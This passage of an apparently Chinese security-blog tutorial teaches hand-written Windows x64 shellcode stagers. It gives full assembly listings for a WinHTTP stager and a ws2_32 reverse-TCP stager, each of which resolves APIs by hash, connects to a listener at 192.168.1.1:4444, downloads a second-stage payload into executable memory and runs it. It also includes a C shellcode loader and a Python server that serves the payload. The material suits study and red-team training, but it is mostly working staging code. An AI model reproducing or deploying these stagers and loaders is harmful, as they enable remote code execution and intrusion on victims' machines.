    ror r8d,0dh										; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax									; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx											; 字符计数器ECX减1
    jnz loop_modname						; 继续循环处理下一个字符，直到ECX减至0
    push rdx											; 将当前模块链表节点地址压栈    
    push r8											; 将计算完成的哈希值压栈存储hash值

    ; 5.获取导出表
    mov rdx, [rdx+20h]						; 获取模块基址
    mov eax, dword ptr [rdx+3ch]		; 读取PE头的RVA
    add rax, rdx									; PE头VA
    cmp word ptr [rax+18h],20Bh		; 检查是否为PE64文件
    jne get_next_mod1							; 不是就下一个模块
    mov eax, dword ptr [rax+88h]		; 获取导出表的RVA
    test rax, rax									; 检查该模块是否有导出函数
    jz get_next_mod1							; 没有就下一个模块
    add rax, rdx									; 获取导出表的VA
    push rax											; 存储导出表的地址
    mov ecx, dword ptr [rax+18h]		; 按名称导出的函数数量
    mov r9d, dword ptr [rax+20h]		; 函数名称字符串地址数组的RVA
    add r9, rdx										; 函数名称字符串地址数组的VA

    ; 6.获取函数名	
get_next_func:	
    test rcx, rcx									; 检查按名称导出的函数数量是否为0
    jz get_next_mod							; 若所有函数已处理完，跳转至下一个模块遍历
    dec rcx											; 函数计数器递减（从后向前遍历函数名数组）
    mov esi, dword ptr [r9+rcx*4]		; 从末尾往前遍历，一个函数名RVA占4字节
    add rsi, rdx										; 函数名RVA
    xor r8, r8											; 存储接下来的函数名哈希

    ; 7.计算模块 hash + 函数 hash之和
loop_funcname: 
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rsi加载一个字节到al，rsi自增1
    ror r8d,0dh										; 对当前哈希值（r8d）循环右移13位
    add r8d,eax									; 将当前字符的ASCII值（al）累加到哈希值（r8d）
    cmp al, ah										; 检查当前字符是否为0（字符串结束符）
    jne loop_funcname						; 若字符非0，继续循环处理下一个字符
    add r8,[rsp+8]								; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
    cmp r8d,r10d									; r10存储目标hash
    jnz get_next_func

    ; 8.获取目标函数指针
    pop rax											; 获取之前存放的当前模块的导出表地址
    mov r9d, dword ptr [rax+24h]		; 获取序号表（AddressOfNameOrdinals）的 RVA
    add r9, rdx										; 序号表起始地址
    mov cx, [r9+2*rcx]							; 从序号表中获取目标函数的导出索引
    mov r9d, dword ptr [rax+1ch]		; 获取函数地址表（AddressOfFunctions）的 RVA
    add r9, rdx										; AddressOfFunctions数组的首地址
    mov eax, dword ptr [r9+4*rcx]		; 获取目标函数指针的RVA
    add rax, rdx									; 获取目标函数指针的地址

finish:
    pop r8												; 清除当前模块hash
    pop r8												; 清除当前链表的位置
    pop rsi												; 恢复RSI
    pop rcx											; 恢复第一个参数
    pop rdx											; 恢复第二个参数
    pop r8												; 恢复第三个参数
    pop r9												; 恢复第四个参数
    pop r10											; 将返回地址地址存储到r10中
    sub rsp, 20h									; 给前4个参数预留 4*8=32（20h）的影子空间
    push r10											; 返回地址
    jmp rax											; 调用目标函数

get_next_mod:                 
    pop rax                         					; 弹出栈中保存的导出表地址
get_next_mod1:
    pop r8                         				 	; 弹出之前压栈的计算出来的模块哈希值
    pop rdx                         					; 弹出之前存储在当前模块在链表中的位置
    mov rdx, [rdx]                  				; 获取链表的下一个模块节点（FLINK）
    jmp next_mod                    			; 跳转回模块遍历循环

get_server_host:
    call internetConnectA

server_host:	
    db '192.168.1.1',0
main endp
end
```

# 三、stager（winhttp版）

详细的过程我就不介绍了，感觉写来写去还是哪些步骤，请各位师傅参考我的另一篇文章[[5]](https://xz.aliyun.com/news/17827)搭配食用

## 3.1 测试

shellcode64.bin是在第一小节 `一、弹窗shellcode` 制作的弹窗shellcode

换个方法测试，选定shellcode的范围，文件->导出为十六进制



导出类型选择C语言，范围选择所选内容



加载器代码如下

```
#include <Windows.h>

//将刚刚在msf中生成的calc的shellcode复制粘贴过来
unsigned char buf[] = {

};

int main() {

    // 申请一块大小为buf字节数组长度的可读可行的内存区域
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存区域
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个线程执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待线程执行完成
    WaitForSingleObject(hThread, INFINITE);
}
```



## 3.2 完整代码

```
.code

main proc

    ; 1. 清除方向标志并对齐栈指针，确保符合Windows x64调用约定
    cld														; 清除方向标志（DF=0），字符串操作向高地址进行
    and rsp, 0FFFFFFFFFFFFFFF0h		; 将RSP对齐到16字节边界，避免栈未对齐导致的异常

    ; 2. 加载wininet.dll库
    push 0													; 为了对齐
    mov r14, 'ptthniw'								; 构造字符串'winhttp\0'
    push r14												; 将字符串压栈，此时RSP指向"winhttp\0"的地址
    mov rcx, rsp										; RCX = 字符串地址，作为LoadLibraryA的参数
    mov r10, 0DEC21CCDh						; kernel32.dll+LoadLibraryA的哈希值
    call GetProcAddressByHash

    ; 3.WinHttpOpen
    xor rcx,rcx											; pszAgentW
    xor rdx,rdx											; dwAccessType
    xor r8,r8												; pszProxyW
    xor r9,r9												; pszProxyBypassW
    push 1													; dwFlags
    push r9												; 对齐
    mov r10,332D226Eh							; winhttp.dll+WinHttpOpen hash
    call GetProcAddressByHash

    jmp get_server_host
    ; 4.调用WinHttpConnect连接到服务器
winHttpConnect:
    mov rcx,rax										; hSession
    pop rdx												; pswzServerName
    mov r8,4444										; nServerPort
    xor r9,r9												; dwReserved
    mov r10,39AE9EB0h							; winhttp.dll+WinHttpConnect hash
    call GetProcAddressByHash

    ; 5.调用WinHttpOpenRequest创建HTTP请求句柄
    call winHttpOpenRequest
server_uri:
    dw '/','s','h','e','l','l','c','o','d','e','6','4','.','b','i','n',0
winHttpOpenRequest:
    mov rcx,rax										; hConnect
    xor rdx,rdx											; pwszVerb
    pop r8													; pwszObjectName
    xor r9,r9												; pwszVersion
    push r9												; dwFlags
    push r9												; *ppwszAcceptTypes
    push r9												; pwszReferrer
    push r9												; 对齐
    mov r10,0D3431402h						; winhttp.dll+WinHttpOpenRequest hash
    call GetProcAddressByHash	
    xchg rsi, rax										; 保存请求句柄到RSI备用

    ; 6.调用WinHttpSendRequest发送HTTP请求
    mov rcx,rsi											; hRequest
    xor rdx,rdx											; lpszHeaders
    xor r8,r8												; dwHeadersLength
    xor r9,r9												; lpOptional
    push r9												; dwContext
    push r9												; dwTotalLength
    push r9												; dwOptionalLength
    push r9												; 对齐
    mov r10,094B5BFFh							; winhttp.dll+WinHttpSendRequest hash
    call GetProcAddressByHash

    ; 7.调用WinHttpReceiveResponse等待服务器响应
    mov rcx,rsi											; hRequest
    xor rdx,rdx											; lpReserved
    mov r10,0E82D8B6Fh						; winhttp.dll+WinHttpReceiveResponse hash
    call GetProcAddressByHash
    test eax,eax
    jz failure

    ; 8.调用VirtualAlloc分配内存空间用于存储Shellcode
    xor rcx, rcx                    						; lpAddress = NULL（由系统选择地址）
    mov rdx, 00400000h              			; dwSize = 4MB（分配内存大小）
    mov r8, 1000h                   					; flAllocationType = MEM_COMMIT（提交物理内存）
    mov r9, 40h                     					; flProtect = PAGE_EXECUTE_READWRITE（可读可写可执行）
    mov r10, 0BCEF49D9h             			; kernel32.dll+VirtualAlloc 的哈希值
    call GetProcAddressByHash

download_prep:
    xchg rax, rbx                   					; 将基地址存入RBX
    push rbx                        						; 对齐
    push rbx                        						; 占位符（用于存储WinHttpReadData返回的已读字节数）
    mov rdi, rsp                    					; RDI指向已读字节数变量（栈地址）	
download_more:
    mov rcx,rsi											; hRequest
    mov rdx,rbx										; lpBuffer
    mov r8, 8192										; dwNumberOfBytesToRead
    mov r9,rdi											; lpdwNumberOfBytesRead
    mov r10,0F5B42CD6h						; winhttp.dll+WinHttpReadData hash
    call GetProcAddressByHash
    add rsp, 32											; 清理影子空间

    test eax,eax
    jz failure

    mov ax, word ptr [rdi]						; 读取已读字节数
    add rbx,rax											; 移动缓冲区指针到下一个写入位置
    test eax,eax										;  检查是否已读取完毕（字节数为0）
    jnz download_more

    pop rax												; clear the temporary storage
    pop rax												; fucking 对齐

execute_stage:
    ret                             							; 跳转到下载的Shellcode执行

    ; 结束
failure:
    mov r10,2E3E5B71h              				; kernel32.dll+ExitProcess 哈希值
    call GetProcAddressByHash 

GetProcAddressByHash:
    
    ; 1. 保存前4个参数到栈上，并保存rsi的值
    push r9
    push r8
    push rdx
    push rcx
    push rsi

    ; 2. 获取 InMemoryOrderModuleList 模块链表的第一个模块结点
    xor rdx,rdx										; 清零
    mov rdx,gs:[rdx+60h]					; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
    mov rdx,[rdx+18h]							; PEB->Ldr
    mov rdx,[rdx+20h]							; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址

    ;3.模块遍历
next_mod:
    mov rsi,[rdx+50h]                 			; 模块名称
    movzx rcx,word ptr [rdx+48h]	 	; 模块名称长度
    xor r8,r8                         					; 存储接下来要计算的hash

    ; 4.计算模块hash
loop_modname:
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'											; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase								; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h										; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
    ror r8d,0dh										; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax									; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx											; 字符计数器ECX减1
    jnz loop_modname						; 继续循环处理下一个字符，直到ECX减至0
    push rdx											; 将当前模块链表节点地址压栈    
    push r8											; 将计算完成的哈希值压栈存储hash值

    ; 5.获取导出表
    mov rdx, [rdx+20h]						; 获取模块基址
    mov eax, dword ptr [rdx+3ch]		; 读取PE头的RVA
    add rax, rdx									; PE头VA
    cmp word ptr [rax+18h],20Bh		; 检查是否为PE64文件
    jne get_next_mod1							; 不是就下一个模块
    mov eax, dword ptr [rax+88h]		; 获取导出表的RVA
    test rax, rax									; 检查该模块是否有导出函数
    jz get_next_mod1							; 没有就下一个模块
    add rax, rdx									; 获取导出表的VA
    push rax											; 存储导出表的地址
    mov ecx, dword ptr [rax+18h]		; 按名称导出的函数数量
    mov r9d, dword ptr [rax+20h]		; 函数名称字符串地址数组的RVA
    add r9, rdx										; 函数名称字符串地址数组的VA

    ; 6.获取函数名	
get_next_func:	
    test rcx, rcx									; 检查按名称导出的函数数量是否为0
    jz get_next_mod							; 若所有函数已处理完，跳转至下一个模块遍历
    dec rcx											; 函数计数器递减（从后向前遍历函数名数组）
    mov esi, dword ptr [r9+rcx*4]		; 从末尾往前遍历，一个函数名RVA占4字节
    add rsi, rdx										; 函数名RVA
    xor r8, r8											; 存储接下来的函数名哈希

    ; 7.计算模块 hash + 函数 hash之和
loop_funcname: 
    xor rax, rax										; 清零EAX，准备处理字符
    lodsb												; 从rsi加载一个字节到al，rsi自增1
    ror r8d,0dh										; 对当前哈希值（r8d）循环右移13位
    add r8d,eax									; 将当前字符的ASCII值（al）累加到哈希值（r8d）
    cmp al, ah										; 检查当前字符是否为0（字符串结束符）
    jne loop_funcname						; 若字符非0，继续循环处理下一个字符
    add r8,[rsp+8]								; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
    cmp r8d,r10d									; r10存储目标hash
    jnz get_next_func

    ; 8.获取目标函数指针
    pop rax											; 获取之前存放的当前模块的导出表地址
    mov r9d, dword ptr [rax+24h]		; 获取序号表（AddressOfNameOrdinals）的 RVA
    add r9, rdx										; 序号表起始地址
    mov cx, [r9+2*rcx]							; 从序号表中获取目标函数的导出索引
    mov r9d, dword ptr [rax+1ch]		; 获取函数地址表（AddressOfFunctions）的 RVA
    add r9, rdx										; AddressOfFunctions数组的首地址
    mov eax, dword ptr [r9+4*rcx]		; 获取目标函数指针的RVA
    add rax, rdx									; 获取目标函数指针的地址

finish:
    pop r8												; 清除当前模块hash
    pop r8												; 清除当前链表的位置
    pop rsi												; 恢复RSI
    pop rcx											; 恢复第一个参数
    pop rdx											; 恢复第二个参数
    pop r8												; 恢复第三个参数
    pop r9												; 恢复第四个参数
    pop r10											; 将返回地址地址存储到r10中
    sub rsp, 20h									; 给前4个参数预留 4*8=32（20h）的影子空间
    push r10											; 返回地址
    jmp rax											; 调用目标函数

get_next_mod:                 
    pop rax                         					; 弹出栈中保存的导出表地址
get_next_mod1:
    pop r8                         				 	; 弹出之前压栈的计算出来的模块哈希值
    pop rdx                         					; 弹出之前存储在当前模块在链表中的位置
    mov rdx, [rdx]                  				; 获取链表的下一个模块节点（FLINK）
    jmp next_mod                    			; 跳转回模块遍历循环

get_server_host:
    call winHttpConnect

server_host:	
    dw '1','9','2','.','1','6','8','.','1','.','1',0 
main endp
end
```

# 四、stager（ws2\_32版）

代码参考：

1. **stager\_reverse\_tcp\_nx.asm**[[6]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/stager/stager_reverse_tcp_nx.asm)：程序的主入口点
2. **block\_api.asm**[[2]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_api.asm)：代码通过动态解析哈希值来定位所需的API函数地址
3. **block\_recv.asm**[[7]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_recv.asm)：通过 `recv` 接收并执行后续载荷
4. **block\_reverse\_tcp.asm**[[8]](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_reverse_tcp.asm)：实现**反向 TCP 连接**

在我的另一篇文章[[5]](https://xz.aliyun.com/news/17827)`Windows Shellcode开发（x86 stager）` 中我说过TCP socket编程有两种玩法，一种是正向连接——已经介绍过了，另一种是反向连接。本文将详细介绍TCP反向连接的实现

## 4.1 必要的解释

**（1）调用WSAStartup函数**

```
sub rsp, 400+8									; WSAData结构体大小400字节，8个字节对齐
mov r13,rsp										; R13保存WSAData结构指针
mov r12,0101A8C05C110002h						; 构造sockaddr_in结构：192.168.1.1:4444, AF_INET
push r12												; 压栈保存sockaddr_in结构
mov r12,rsp										; R12保存sockaddr_in结构指针
mov rdx,r13										; RDX = WSAData结构指针
push 0101h											; Winsock 1.1版本
pop rcx												; RCX = 0101h
mov r10,78A22668h							; ws2_32.dll+WSAStartup的哈希值
call GetProcAddressByHash
```

1. `sub rsp, 400+8`：WSAData结构体大小400字节（400是整除16的），为什么要加8个字节用于对齐呢？可以看到上面的代码，push出现了2次，pop出现了一次，很明显，需要+8来抵销一次push。如果不对齐，执行到 `call GetProcAddressByHash` 则会报错。
2. `mov r12,0101A8C05C110002h`：我们了分析一下这个`sockaddr_in`结构体如何构造

* `0101A8C0`： C0=192, A8=168, 01=1, 01=1，即ip=192.168.1.1
* `5C11`（大端序）：端口4444
* `0002` ：表示AF\_INET（IPv4）

1. `push 0101h`：在x86 shellcode编写中，我使用的是 `0202h`，即Winsock 2.2版本。但是经过测试，我在自己的win11系统上也能适用Winsock 1.1版本。低版本Winsock能适配更多windows古早系统，同时windows11、10也能够兼容低版本Winsock。
2. 在上面的代码中，R12保存sockaddr\_in结构指针，一直到 `调用connect函数` 时才会使用到，为此我修改了 `GetProcAddressByHash` 部分代码，即保存r12寄存器的值，避免丢失。

**（2）调用connect函数**

```
mov rcx,rdi											; 套接字句柄
mov rdx,r12										; sockaddr_in结构指针
push 16												; sockaddr_in结构长度
pop r8													; R8 = 16
mov r10,0D9AB4BD8h						; ws2_32.dll+connect的哈希值
call GetProcAddressByHash
```

在正向连接中，我们的shellcode需要扮演一个服务器，需要bind+listen+accept这一套组合才能与客户端建立连接。但是在反向连接中，我们的shellcode扮演着一个客户端，只需要connect直接向控制端的监听端口发起连接请求。

**（3）清栈**

```
add rsp, ((400+8)+(5*8)+(4*32))
```

* 400+8是在WSAStartup初始化分配给WSAData结构体的
* 执行到此条指令时，一共出现了7次push，2次pop，所以还剩7-2=5，每次栈操作涉及8字节，故要释放 `5*8` 个字节的栈空间
* 一共执行了4次windows API函数，每次调用 `GetProcAddressByHash` 都会产生32字节的影子空间，故要释放`4*32`字节的栈空间

这是程序开始执行时的rsp指针



在 `add rsp, ((400+8)+(5*8)+(4*32))` 下一个断点，可以看到红框内是我们使用到的栈空间



F11后，栈空间如下，又回到了程序开始时的rsp指针



PS：经过测试，不清理栈空间，程序也能正常执行。

**（4）分段接收**

```
read_pre:
    xchg rax,rbx										; RBX = 分配的内存基地址
    push rbx												; 保存基地址
read_more:
    mov rcx,rdi											; 套接字句柄
    mov rdx,rbx										; 当前写入指针
    mov r8,8192										; 每次读取8192字节
    xor r9,r9												; flags = 0
    mov r10,0D7FF7F41h							; ws2_32.dll+recv的哈希值
    call GetProcAddressByHash
    add rsp, 32											; 清理影子空间

    add rbx,rax											; 移动写入指针
    test eax,eax										; 检查接收字节数
    jnz read_more									; 继续接收直到返回0
```

这一段代码我对Stephen Fewer的代码进行了大整改，具体原因还是因为必需在原始数据的开头patch 4个字节作为接下来接收的数据长度，我不想实现，所以就大改 :）

下图是Stephen Fewer的代码



## 4.2 测试

shellcode64.bin是在第一小节 `一、弹窗shellcode` 制作的弹窗shellcode

python服务器代码

```
import socket
import threading

IP = '0.0.0.0'
PORT = 4444  # 修改为4444端口
SHELLCODE_FILE = 'shellcode64.bin'  # 要传输的shellcode文件

def main():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((IP, PORT))
    server.listen(5)
    print(f'[*] Listening on {IP}:{PORT}')
    
    while True:
        client, address = server.accept()
        print(f'[*] Accepted connection from {address[0]}:{address[1]}')
        client_handler = threading.Thread(
            target=handle_client,
            args=(client,)
        )
        client_handler.start()

def handle_client(client_socket):
    try:
        # 读取shellcode文件
        with open(SHELLCODE_FILE, 'rb') as f:
            shellcode = f.read()
        
        # 发送shellcode给客户端
        client_socket.sendall(shellcode)
        print(f'[*] Sent {len(shellcode)} bytes of shellcode')
        
    except FileNotFoundError:
        print(f'[!] Error: {SHELLCODE_FILE} not found')
        client_socket.sendall(b'Error: Shellcode file not found')
    except Exception as e:
        print(f'[!] Error: {str(e)}')
    finally:
        client_socket.close()

if __name__ == '__main__':
    main()
```

首先是exe形式



其次是shellcode形式



## 4.3 完整代码

```
.code

main proc

    ; 1. 清除方向标志并对齐栈指针，确保符合Windows x64调用约定
    cld														; 清除方向标志（DF=0），字符串操作向高地址进行
    and rsp, 0FFFFFFFFFFFFFFF0h		; 将RSP对齐到16字节边界，避免栈未对齐导致的异常

    ; 2.加载ws2_32.dll库
    push 0													; 为了对齐
    mov r14, '23_2sw'								; 构造字符串'ws2_32\0'
    push r14												; 将字符串压栈，此时RSP指向"ws2_32\0"的地址
    mov rcx, rsp										; RCX = 字符串地址，作为LoadLibraryA的参数
    mov r10, 0DEC21CCDh						; kernel32.dll+LoadLibraryA的哈希值
    call GetProcAddressByHash

    ; 3.调用WSAStartup函数
    sub rsp, 400+8									; WSAData结构体大小400字节，8个字节对齐
    mov r13,rsp										; R13保存WSAData结构指针
    mov r12,0101A8C05C110002h			; 构造sockaddr_in结构：192.168.1.1:4444, AF_INET
    push r12												; 压栈保存sockaddr_in结构
    mov r12,rsp										; R12保存sockaddr_in结构指针
    mov rdx,r13										; RDX = WSAData结构指针
    push 0101h											; Winsock 1.1版本
    pop rcx												; RCX = 0101h
    mov r10,78A22668h							; ws2_32.dll+WSAStartup的哈希值
    call GetProcAddressByHash
    
    test eax,eax
    jnz failure

    ; 4.调用WSASocketA函数
    mov rcx,2											; af=AF_INET (IPv4)
    mov rdx,1											; af=SOCK_STREAM (TCP)
    xor r8,r8												; protocol = 0 (默认)
    xor r9,r9												; lpProtocolInfo = NULL
    push r9												; dwFlags = 0
    push r9												; g=0
    mov r10,5915B629h							; ws2_32.dll+WSASocketA的哈希值
    call GetProcAddressByHash
    xchg rdi,rax										; 保存套接字句柄到RDI

    ; 6.调用connect函数
    mov rcx,rdi											; 套接字句柄
    mov rdx,r12										; sockaddr_in结构指针
    push 16												; sockaddr_in结构长度
    pop r8													; R8 = 16
    mov r10,0D9AB4BD8h						; ws2_32.dll+connect的哈希值
    call GetProcAddressByHash

    test eax,eax						
    jnz failure

    ; 7. 清栈
    add rsp, ((400+8)+(5*8)+(4*32))

    ; 8.调用VirtualAlloc分配内存空间用于存储Shellcode
    xor rcx, rcx                    						; lpAddress = NULL（由系统选择地址）
    mov rdx, 00400000h              			; dwSize = 4MB（分配内存大小）
    mov r8, 1000h                   					; flAllocationType = MEM_COMMIT（提交物理内存）
    mov r9, 40h                     					; flProtect = PAGE_EXECUTE_READWRITE（可读可写可执行）
    mov r10, 0BCEF49D9h             			; kernel32.dll+VirtualAlloc 的哈希值
    call GetProcAddressByHash

read_pre:
    xchg rax,rbx										; RBX = 分配的内存基地址
    push rbx												; 保存基地址
read_more:
    mov rcx,rdi											; 套接字句柄
    mov rdx,rbx										; 当前写入指针
    mov r8,8192										; 每次读取8192字节
    xor r9,r9												; flags = 0
    mov r10,0D7FF7F41h							; ws2_32.dll+recv的哈希值
    call GetProcAddressByHash
    add rsp, 32											; 清理影子空间

    add rbx,rax											; 移动写入指针
    test eax,eax										; 检查接收字节数
    jnz read_more									; 继续接收直到返回0

execute_stage:
    ret                             							; 跳转到下载的Shellcode执行

    ; 结束
failure:
    mov r10,2E3E5B71h              				; kernel32.dll+ExitProcess 哈希值
    call GetProcAddressByHash 

GetProcAddressByHash:
    
    ; 1. 保存前4个参数到栈上，并保存rsi和r12的值
    push r9
    push r8
    push rdx
    push rcx
    push rsi
    push r12

    ; 2. 获取 InMemoryOrderModuleList 模块链表的第一个模块结点
    xor rdx,rdx											; 清零
    mov rdx,gs:[rdx+60h]						; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
    mov rdx,[rdx+18h]								; PEB->Ldr
    mov rdx,[rdx+20h]								; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址

    ;3.模块遍历
next_mod:
    mov rsi,[rdx+50h]                 				; 模块名称
    movzx rcx,word ptr [rdx+48h]	 		; 模块名称长度
    xor r8,r8                         						; 存储接下来要计算的hash

    ; 4.计算模块hash
loop_modname:
    xor rax, rax											; 清零EAX，准备处理字符
    lodsb													; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'												; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase									; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h											; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
    ror r8d,0dh											; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax										; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx												; 字符计数器ECX减1
    jnz loop_modname							; 继续循环处理下一个字符，直到ECX减至0
    push rdx												; 将当前模块链表节点地址压栈    
    push r8												; 将计算完成的哈希值压栈存储hash值

    ; 5.获取导出表
    mov rdx, [rdx+20h]							; 获取模块基址
    mov eax, dword ptr [rdx+3ch]			; 读取PE头的RVA
    add rax, rdx										; PE头VA
    cmp word ptr [rax+18h],20Bh			; 检查是否为PE64文件
    jne get_next_mod1								; 不是就下一个模块
    mov eax, dword ptr [rax+88h]			; 获取导出表的RVA
    test rax, rax										; 检查该模块是否有导出函数
    jz get_next_mod1								; 没有就下一个模块
    add rax, rdx										; 获取导出表的VA
    push rax												; 存储导出表的地址
    mov ecx, dword ptr [rax+18h]			; 按名称导出的函数数量
    mov r9d, dword ptr [rax+20h]			; 函数名称字符串地址数组的RVA
    add r9, rdx											; 函数名称字符串地址数组的VA

    ; 6.获取函数名	
get_next_func:	
    test rcx, rcx										; 检查按名称导出的函数数量是否为0
    jz get_next_mod								; 若所有函数已处理完，跳转至下一个模块遍历
    dec rcx												; 函数计数器递减（从后向前遍历函数名数组）
    mov esi, dword ptr [r9+rcx*4]			; 从末尾往前遍历，一个函数名RVA占4字节
    add rsi, rdx											; 函数名RVA
    xor r8, r8												; 存储接下来的函数名哈希

    ; 7.计算模块 hash + 函数 hash之和
loop_funcname: 
    xor rax, rax											; 清零EAX，准备处理字符
    lodsb													; 从rsi加载一个字节到al，rsi自增1
    ror r8d,0dh											; 对当前哈希值（r8d）循环右移13位
    add r8d,eax										; 将当前字符的ASCII值（al）累加到哈希值（r8d）
    cmp al, ah											; 检查当前字符是否为0（字符串结束符）
    jne loop_funcname							; 若字符非0，继续循环处理下一个字符
    add r8,[rsp+8]									; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
    cmp r8d,r10d										; r10存储目标hash
    jnz get_next_func

    ; 8.获取目标函数指针
    pop rax												; 获取之前存放的当前模块的导出表地址
    mov r9d, dword ptr [rax+24h]			; 获取序号表（AddressOfNameOrdinals）的 RVA
    add r9, rdx											; 序号表起始地址
    mov cx, [r9+2*rcx]								; 从序号表中获取目标函数的导出索引
    mov r9d, dword ptr [rax+1ch]			; 获取函数地址表（AddressOfFunctions）的 RVA
    add r9, rdx											; AddressOfFunctions数组的首地址
    mov eax, dword ptr [r9+4*rcx]			; 获取目标函数指针的RVA
    add rax, rdx										; 获取目标函数指针的地址

finish:
    pop r8													; 清除当前模块hash
    pop r8													; 清除当前链表的位置
    pop r12
    pop rsi													; 恢复RSI
    pop rcx												; 恢复第一个参数
    pop rdx												; 恢复第二个参数
    pop r8													; 恢复第三个参数
    pop r9													; 恢复第四个参数
    pop r10												; 将返回地址地址存储到r10中
    sub rsp, 20h										; 给前4个参数预留 4*8=32（20h）的影子空间
    push r10												; 返回地址
    jmp rax												; 调用目标函数

get_next_mod:                 
    pop rax                         						; 弹出栈中保存的导出表地址
get_next_mod1:
    pop r8                         				 		; 弹出之前压栈的计算出来的模块哈希值
    pop rdx                         						; 弹出之前存储在当前模块在链表中的位置
    mov rdx, [rdx]                  					; 获取链表的下一个模块节点（FLINK）
    jmp next_mod                    				; 跳转回模块遍历循环

main endp
end
```

**下一步计划**：linux shellcode开发或者srdi相关的文章，又或者两个一起出？如果看过我几篇文章的师傅想必会有所察觉，那就是我的文章之间存在联动，或者说我的文章是按照某个主题往下推进，如果对这个主题感兴趣或者觉得我的文章对您有帮助，麻烦点点关注不迷路o.O。


# 参考资料

[1]: [metasploit-framework/external/source/shellcode/windows/x64/src/stager/stager\_reverse\_https.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/stager/stager_reverse_https.asm)  
[2]: [metasploit-framework/external/source/shellcode/windows/x64/src/block/block\_api.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_api.asm)  
[3]: [metasploit-framework/external/source/shellcode/windows/x64/src/block/block\_reverse\_https.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_reverse_https.asm)  
[4]:[x64 调用约定 | Microsoft Learn](https://learn.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=msvc-170)  
[5]: <https://xz.aliyun.com/news/17827>  
[6]: [metasploit-framework/external/source/shellcode/windows/x64/src/stager/stager\_reverse\_tcp\_nx.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/stager/stager_reverse_tcp_nx.asm)  
[7]: [metasploit-framework/external/source/shellcode/windows/x64/src/block/block\_recv.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_recv.asm)  
[8]: [metasploit-framework/external/source/shellcode/windows/x64/src/block/block\_reverse\_tcp.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x64/src/block/block_reverse_tcp.asm)
